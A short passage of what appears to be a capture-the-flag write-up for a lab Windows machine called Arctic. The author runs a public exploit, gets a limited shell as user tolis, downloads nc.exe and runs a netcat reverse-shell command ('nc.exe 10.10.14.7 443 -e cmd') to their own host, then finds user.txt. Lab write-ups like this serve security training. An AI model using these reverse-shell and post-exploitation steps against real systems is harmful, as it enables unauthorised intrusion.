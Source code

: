 Using the publicly available exploit, modified the value of LHOST and ran the exploit

Got shell as `arctic\tolis`
![[Pasted image 20240910103714.png]]

It seems its not a fully functional shell, and unable to `cd` into other directories. Unable to print output for `whoami /priv`

- Downloaded nc.exe binary on the victim machine
```powershell
nc.exe 10.10.14.7 443 -e cmd
```
- Got a functioning reverse shell and switched over to PowerShell
```powershell
powershell -File -
```
Found `user.txt` in `C:\Users\tolis\Desktop\tolis\user.txt`

